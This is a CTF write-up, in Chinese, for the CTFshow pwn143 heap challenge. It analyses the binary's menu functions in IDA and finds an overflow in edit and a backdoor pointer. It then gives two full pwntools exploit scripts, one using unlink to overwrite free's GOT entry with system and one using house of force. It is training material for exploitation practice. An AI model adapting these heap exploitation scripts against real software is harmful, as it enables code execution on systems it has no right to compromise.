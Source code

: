 ```yaml
---
title: CTFshow pwn143
---
```

# CTFshow pwn143 (unlink & houce of force)

## ida分析

### main函数分析
![1741875084264.png](https://img.picui.cn/free/2025/03/13/67d2e78e7977a.png)
1.经典菜单题
2.但是值得注意的是case 5 会调用v4[1] ，可以覆盖其中地址为题目留下的后门函数

### add函数分析
![1741875249131.png](https://img.picui.cn/free/2025/03/13/67d2e832e7df2.png)
1.理清题目堆块指针的保存结构，使用list数组保存对应的堆块大小
2.使用heaplist数组，保存堆块的地址

### edit函数分析
![1741875438296.png](https://img.picui.cn/free/2025/03/13/67d2e8f044392.png)
1.发现溢出漏洞，可以溢出多字节

### show函数分析
![1741875684508.png](https://img.picui.cn/free/2025/03/13/67d2e9e693af7.png)
1.没什么特别的，就是可以用来泄露libc

### delete函数分析
![1741875887777.png](https://img.picui.cn/free/2025/03/13/67d2eab191a39.png)
1.没有漏洞，释放后将指针置空了

## 构造思路
1.首先这题在edit时留出了任意长度的溢出，但是没有uaf漏洞。所以这道题首先考虑unlink方法；同时这道题在case5 留出了一个v4给我们操作，那么如果可以通过某种方法申请到这块空间，就可以篡改为题目留下来的后门函数。这里可以使用house of force，也可以考虑fastbin dup吧，后续可以尝试。
2.那么确定攻击的方法之后，只需要注意几个点。如果采用unlink的手法，必须注意，伪造的fake_chunk的地址，必须是存放我们进行unlink操作的堆块的地址，如下图中所示。ptr就是存放堆块0的指针
![1741876735944.png](https://img.picui.cn/free/2025/03/13/67d2ee0282c68.png)
3.此题使用unlink还要注意，堆块0的不能大于fastbin的大小，否则最后delete时会报错，不知道为什么。（待解决）明明unlink操作成功，修改free_got也成功，就是会报错。
4.如果使用house of force 的手法，那么只需要修改top的size，为-1(0xffffffffffffffff)。然后根据偏移，申清负数大小的堆块，是top_chunk迁移到目的地址(注意留出chunk头大小的空间)，然后申清就可以分配到这块空间。

## exp
### unlink
```python
from pwn import *
from libcfind import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
mode=0
url='pwn.challenge.ctf.show'
port=28159
elf=ELF("./pwn")
if mode == 0:
    io=process("./pwn")
else :
    io=remote(url,port)

def add(size,name):
    io.recvuntil("Your choice:")
    io.sendline("2")
    io.recvuntil("length:")
    io.sendline(str(size))
    io.recvuntil("name:")
    io.send(name)

def edit(idx,size,name):
    io.recvuntil("Your choice:")
    io.sendline("3")
    io.recvuntil("index:")
    io.sendline(str(idx))
    io.recvuntil("of name:")
    io.sendline(str(size))
    io.recvuntil("name:")
    io.send(name)

def show():
    io.recvuntil("Your choice:")
    io.sendline("1")
   
def delete(idx):
    io.recvuntil("Your choice:")
    io.sendline("4")
    io.recvuntil("index:")
    io.sendline(str(idx))

flag=0x400D7F
add(0x60,b'aaaa') #0
add(0x90,b'bbbb') #1
add(0x80,b'cccc') #2
add(0x20,b'/bin/sh\x00') #3
ptr=0x6020a8
fd=ptr-0x18
bk=ptr-0x10
fake_chunk=p64(0)+p64(0x61)
fake_chunk+=p64(fd)+p64(bk)
fake_chunk+=p64(0)*8
fake_chunk+=p64(0x60)+p64(0xa0)

edit(0,len(fake_chunk),fake_chunk)
#gdb.attach(io)
delete(1)
payload=p64(0)+p64(0)+p64(0x90)+p64(elf.got['free'])
edit(0,len(payload),payload)
#gdb.attach(io)
show()
io.recv(4)
free=u64(io.recv(6).ljust(8,b'\x00'))
log.success("free-{}".format(hex(free)))
libc=LibcSearcher("free",free)
libcbase=free-libc.dump("free")
system=libcbase+libc.dump("system")
gdb.attach(io)
edit(0,0x8,p64(system))
delete(3)
io.interactive()
```
### house of force
```python
from pwn import *
from libcfind import *
from LibcSearcher import *
context(os='linux',arch='amd64',log_level='debug')
mode=0
url='pwn.challenge.ctf.show'
port=28197
elf=ELF("./pwn")
if mode == 0:
    io=process("./pwn")
else :
    io=remote(url,port)

def add(size,name):
    io.recvuntil("Your choice:")
    io.sendline("2")
    io.recvuntil("length:")
    io.sendline(str(size))
    io.recvuntil("name:")
    io.send(name)

def edit(idx,size,name):
    io.recvuntil("Your choice:")
    io.sendline("3")
    io.recvuntil("index:")
    io.sendline(str(idx))
    io.recvuntil("of name:")
    io.sendline(str(size))
    io.recvuntil("name:")
    io.send(name)

def show():
    io.recvuntil("Your choice:")
    io.sendline("1")
   
def delete(idx):
    io.recvuntil("Your choice:")
    io.sendline("4")
    io.recvuntil("index:")
    io.sendline(str(idx))
def get_flag():
    io.recvuntil("Your choice:")
    io.sendline("5")
flag=0x400D7F
add(0x30,b'aaaa')
payload=p64(0)*7+p64(0xffffffffffffffff)

edit(0,0x41,payload)

offset=-0x70
add(offset,b'aaaa')
#gdb.attach(io)
add(0x10,p64(flag)*2)
get_flag()
io.interactive()
```